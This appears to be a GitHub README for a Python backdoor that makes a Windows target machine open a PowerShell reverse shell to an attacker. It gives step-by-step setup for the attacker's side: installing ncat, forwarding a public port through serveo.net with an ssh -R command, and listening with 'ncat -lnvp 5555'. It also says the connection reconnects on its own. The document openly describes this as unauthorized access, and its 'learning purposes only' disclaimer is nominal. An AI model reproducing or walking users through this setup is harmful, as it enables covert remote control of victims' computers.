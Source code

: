 # Python Backdoor for Windows On Public Networks

This project is a Python-based backdoor that is to be executed on target system, after executing, the Target PC connects to a remote server 'SERVEO' at a specific TCP port from which the connection is forwarded to Attacker system or YOUR PC, Thus succesfully establishing a connection between your PC and the target system and allowing unauthorized access. The connection contains a PowerShell command interface, allowing Attacker to execute PowerShell commands on the target system. 

- To get this to working a Tool must be installed on YOUR PC

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.
  ### For Linux:
  ```shell
 sudo apt install ncat
  ```
  - This one commad is enough to set up ncat on linux
### For windows:

  For WINDOWS Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup (serveo)
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option. (it's an open source project )
  - you can visit 'https://serveo.net' for more knowledge
  
  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 on the public server 'serveo' , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a dedicated terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)

- ***If the connection is stuck or not responding just close the current terminal open new one and run the same command the python code try try to reconnect every 120sec of inactivity (the time delay can be modified from the code)***
- ***Remember do not leave the terminal inactive, the connection will be lost since the python code try to reconnect***

 For Learning purposes only.
 
 This might be a game changer for beginners.
 
 Try your best not to do anything ilegal :)
